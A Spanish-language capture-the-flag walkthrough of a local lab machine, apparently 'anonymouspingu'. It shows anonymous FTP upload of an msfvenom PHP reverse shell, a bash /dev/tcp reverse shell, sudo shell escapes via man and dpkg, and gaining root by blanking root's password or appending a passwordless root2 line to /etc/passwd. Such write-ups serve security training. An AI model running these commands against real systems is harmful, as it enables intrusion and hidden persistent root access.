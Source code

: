 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh anonymouspingu.tar
```

![Pasted image 20250206154045](https://github.com/user-attachments/assets/adc3513a-5c5e-49d0-8a22-60628735054b)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250206154119](https://github.com/user-attachments/assets/9e1b5bf7-5900-48bf-a4eb-748695219c31)

```Bash
ftp 172.17.0.2
```

![Pasted image 20250206154154](https://github.com/user-attachments/assets/1145d31d-9e4b-4092-87bc-3088417c8789)

```Bash
anonymous
```

![Pasted image 20250206154211](https://github.com/user-attachments/assets/307dae3f-f53a-4b51-b23e-8fc231625461)

```Bash
ls
```

![Pasted image 20250206154233](https://github.com/user-attachments/assets/31fee805-0f22-4e66-b149-a739cb577f89)

```Bash
cd upload
```

![Pasted image 20250206155319](https://github.com/user-attachments/assets/cce5025d-f8a5-441f-91ef-9141b70d47ad)

Nos metemos en la web:

![Pasted image 20250206154434](https://github.com/user-attachments/assets/2265e886-46dd-4e63-a07b-38eaffc2fbfc)

Creamos payload que vamos a subir:

```Bash
msfvenom -p php/reverse_php LHOST=172.17.0.1 LPORT=4444 -f raw > shell.php
```

![Pasted image 20250206155103](https://github.com/user-attachments/assets/e3c8dd1a-a728-47a7-8749-2ec97a7d37eb)

```Bash
put shell.php
```

![Pasted image 20250206155254](https://github.com/user-attachments/assets/58ae11e6-68e8-4c4e-9d8a-73bf8ab8a682)

Nos ponemos a la escucha con **netcat**:

```Bash
nc -lnvp 4444
```

![Pasted image 20250206155207](https://github.com/user-attachments/assets/db5ac0ec-0375-492c-b453-1cdd9b61e54a)

Nos ponemos otra:

```Bash
nc -lnvp 443
```

![Pasted image 20250206155218](https://github.com/user-attachments/assets/22964e30-2f99-49b0-98b5-9751b4faddc6)

Pinchamos en la shell subida:

![Pasted image 20250206155401](https://github.com/user-attachments/assets/8a878d42-2037-4fc1-9879-37775a670eef)

Miramos en la shell:

![Pasted image 20250206155425](https://github.com/user-attachments/assets/d256cd58-fdcf-4818-8127-8d675713ffaf)

Nos la mandamos a la otra shell:

```Bash
bash -c "bash -i >& /dev/tcp/172.17.0.1/443 0>&1"
```

![Pasted image 20250206155440](https://github.com/user-attachments/assets/e43c4665-0d50-4ce2-9617-52c8c0e1112e)

Miramos la otra shell:

![Pasted image 20250206155506](https://github.com/user-attachments/assets/ae3c1f39-457d-4eef-8e1c-c4a03d24de98)

Tratamiento **tty**:

En la shell de nuestro kali:

```Bash
stty size
```

![Pasted image 20250206165349](https://github.com/user-attachments/assets/90d69783-e8a8-4f5b-8818-cf2dff3ee7d6)

En la shell víctima:

```Bash
script /dev/null -c bash
```

![Pasted image 20250206165438](https://github.com/user-attachments/assets/01da1234-a91f-4472-977e-e0066f686279)

```Bash
cntrl + z
```

![Pasted image 20250206165508](https://github.com/user-attachments/assets/8966f2f2-5e9e-43d2-ac88-642dad40a0d7)

```Bash
stty raw -echo;fg
```

![Pasted image 20250206165522](https://github.com/user-attachments/assets/004969fa-2278-4895-85d3-1228d4751dae)

```Bash
reset xterm
```

![Pasted image 20250206165533](https://github.com/user-attachments/assets/22dd2ba4-7cf1-430c-be97-3e9e600f9512)

```Bash
export TERM=xterm
```

![Pasted image 20250206165554](https://github.com/user-attachments/assets/099696d3-59c7-4c57-90a6-a86fdf2b463f)

```Bash
export SHELL=bash
```

![Pasted image 20250206165609](https://github.com/user-attachments/assets/072d171a-f7b6-492a-b188-e9b426d9e48b)

```Bash
stty rows 36 columns 150
```

![Pasted image 20250206165647](https://github.com/user-attachments/assets/e9989a40-7879-43e9-96f0-3f7206249bce)

Elevamos privilegios:

```Bash
sudo -l
```

![Pasted image 20250206155539](https://github.com/user-attachments/assets/3b6b60a8-11f6-4cfd-90fd-cd3c71691296)

```Bash
sudo -u pingu /usr/bin/man man
```

![Pasted image 20250206162526](https://github.com/user-attachments/assets/ae2a93fe-e1d8-4f5f-9ba0-91685e7b9345)

```Bash
!/bin/bash
```

![Pasted image 20250206162724](https://github.com/user-attachments/assets/91ba7aeb-bee0-4b94-806b-a4155a7187b8)

```Bash
whoami
```

![Pasted image 20250206162744](https://github.com/user-attachments/assets/eb5a010e-7a25-4828-8cc7-e08457342e8a)

Elevamos privilegios de nuevo:

```Bash
sudo -l
```

![Pasted image 20250206162834](https://github.com/user-attachments/assets/6cecfec6-c041-471f-bdfd-19e57035c26c)

```Bash
sudo -u gladys dpkg -l
```

![Pasted image 20250206163141](https://github.com/user-attachments/assets/e6263f6f-1023-4844-a073-8933362fc302)

```Bash
!/bin/bash
```

![Pasted image 20250206163447](https://github.com/user-attachments/assets/b0d18432-6bf3-4d9b-a409-1ed449080afe)

```Bash
whoami
```

![Pasted image 20250206163513](https://github.com/user-attachments/assets/15739065-3b26-451c-a931-5da0de1ccca8)

Elevamos privilegios de nuevo:

```Bash
sudo -l
```

![Pasted image 20250206163523](https://github.com/user-attachments/assets/2e61e1cd-11af-4093-ac1a-ae52362c0f37)

```Bash
sudo -u root /usr/bin/chown gladys:gladys /etc/
```

![Pasted image 20250206164638](https://github.com/user-attachments/assets/e4ea7172-f8e5-49ac-bef3-3c9e9df5a6d4)

```Bash
sed -i 's/root:x:/root::/g' /etc/passwd
```

![Pasted image 20250206164649](https://github.com/user-attachments/assets/a9dfe6e7-c439-4484-9735-9e8b3d2ee3ac)

```Bash
su root
```

![Pasted image 20250206164702](https://github.com/user-attachments/assets/3c06e437-1239-4866-9060-286cea3384bc)

```Bash
whoami
```

![Pasted image 20250206164722](https://github.com/user-attachments/assets/b2324b19-9335-4ae1-acb2-0174347a1739)

Otra forma en vez de vaciar la contraseña es creando otro root:

```Bash
echo 'root2::0:0:root:/root:/bin/bash' >> /etc/passwd
```

![Pasted image 20250206170353](https://github.com/user-attachments/assets/c4d94900-45ec-4008-a203-2fe8248db5ea)

```Bash
su root2
```

![Pasted image 20250206170423](https://github.com/user-attachments/assets/2ee88d9b-beda-41e0-a332-03358d4c0e1c)

```Bash
whoami
```

![Pasted image 20250206170448](https://github.com/user-attachments/assets/24543559-42a4-4b48-b904-8da1cc78fad9)
